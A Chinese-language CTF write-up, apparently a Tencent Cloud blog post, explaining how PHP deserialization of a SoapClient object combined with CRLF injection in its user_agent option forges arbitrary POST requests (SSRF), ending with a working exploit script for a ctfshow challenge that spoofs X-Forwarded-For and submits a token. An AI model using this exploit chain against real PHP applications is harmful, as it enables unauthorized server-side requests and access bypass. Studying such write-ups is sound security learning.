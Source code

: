 # SoapClient反序列化SSRF组合拳

原创

修改于 2021-09-16 14:36:16

1.5K0

举报

文章被收录于专栏：ly0n

## 前言

有的时候我们会遇到只给了反序列化点，但是没有POP链的情况。可以尝试利用php内置类来进行反序列化。

## 魔术方法

魔术方法详细的讲解可以移步另一篇文章

[https://cloud.tencent.com/developer/article/1740465](https://cloud.tencent.com/developer/article/1740465?from_column=20421&from=20421)

代码语言：javascript

复制

```javascript
构造函数 __construct 对象被创建的时候调用
析构函数 __destruct 对象被销毁的时候调用
方法重载 __call 在对象中调用一个不可访问方法时调用
方法重载 __callStatic 在静态上下文中调用一个不可访问方法时调用
在给不可访问属性赋值时，__set() 会被调用。
读取不可访问属性的值时，__get() 会被调用。
当对不可访问属性调用 isset() 或 empty() 时，__isset() 会被调用
当对不可访问属性调用 unset() 时，__unset() 会被调用
__sleep() 在serialize() 函数执行之前调用
__wakeup() 在unserialize() 函数执行之前调用
__toString 在一个类被当成字符串时被调用（不仅仅是echo的时候,比如file_exists()判断也会触发）
```



## CRLF攻击

什么是CRLF，其实就是回车和换行造成的漏洞，十六进制为`0x0d,0x0a`，在HTTP当中`header`和`body`之间就是两个CRLF分割的，所以如果我们能够控制HTTP消息头中的字符，注入一些恶意的换行，这样就能注入一些会话cookie和html代码，所以crlf injection 又叫做 HTTP Response Splitting。



## **SoapClient与反序列化**

### **SoapClient::__call**

[https://www.php.net/manual/zh/soapclient.call.php](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.php.net%2Fmanual%2Fzh%2Fsoapclient.call.php&objectId=1878220&objectType=1&isNewArticle=undefined)

`__call()` 方法是对象中调用一个不可访问方法时调用

SOAP:简单对象访问协议

底层通讯协议为HTTP,传输数据格式为XML。

测试SoapClient类调用一个不存在的函数，会去调用`__call()`方法

代码语言：javascript

复制

```javascript
<?php
$a = new SoapClient(null,array('uri'=>'bbb', 'location'=>'http://127.0.0.1:6888/'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->not_exists_function();
```

nc监听6888端口



![img](https://ask.qcloudimg.com/http-save/yehe-7880177/715d0c66f8958ac3d3971396e2cfc3ba.png)

从结果我们可以看到SOAPAction参数可控，我们可以在SOAPAction处注入恶意的换行，这样一来我们POST提交的header就是可控的，我们就可以通过注入来执行我们想要执行的操作了。

尝试传入token,发现新的问题，Content-Type在`SOAPAction`的上面，就无法控制`Content-Typ`,也就不能控制POST的数据

在header里`User-Agent`在`Content-Type`前面，通过`user_agent`同样可以注入CRLF,控制`Content-Type`的值

这个点是百度看到的，文章地址：[https://zhuanlan.zhihu.com/p/80918004](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fzhuanlan.zhihu.com%2Fp%2F80918004&objectId=1878220&objectType=1&isNewArticle=undefined)

尝试控制`token`

代码语言：javascript

复制

```javascript
<?php
$target = 'http://127.0.0.1:6888';
$post_string = 'token=ly0n';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'ly0n^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo $aaa;

$c = unserialize($aaa);
$c->not_exists_function();
?>
```





![img](https://ask.qcloudimg.com/http-save/yehe-7880177/e1bde71d6f27a19ad3c39f5262ac5003.png)

成功控制

使用SoapClient反序列化+CRLF**可以生成任意POST请求**。

```
Deserialization + __call + SoapClient + CRLF = SSRF
```



## **题目分析**

打开题目看到只有几行代码

代码语言：javascript

复制

```javascript
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```



还有另外一个flag.php文件

代码语言：javascript

复制

```javascript
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
	die('error');
}else{
	$token = $_POST['token'];
	if($token=='ctfshow'){
		file_put_contents('flag.txt',$flag);
	}
}
```

`$xff`经过了`array_pop()`的处理，这个函数的作用是弹出数组最后一个单元（出栈），当我刚开始只传入了一个127.0.0.1时发现并没有利用成功，也就是说，此时数组内的最后一个ip并不是127.0.0.1，于是传入多个127.0.0.1进行尝试，发现传入两个即可成功绕过。在百度其原理看到了[Y4tacker](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fy4tacker.blog.csdn.net%2Farticle%2Fdetails%2F110521104&objectId=1878220&objectType=1&isNewArticle=undefined)师傅的解释



![img](https://ask.qcloudimg.com/http-save/yehe-7880177/e8ec3acf4b4bcdb990fbb5b309a9361c.png)

最终exp

代码语言：javascript

复制

```javascript
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$headers = array(
    'X-Forwarded-For: 127.0.0.1,127.0.0.1',
    'UM_distinctid:17b33d40a5785b-043dfa37ff7c9d-35607403-1fa400-17b33d40a58b9a'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'ly0n^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri' => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo urlencode($aaa);

?>
```

通过vip传入参数，然后访问flag.txt即可！
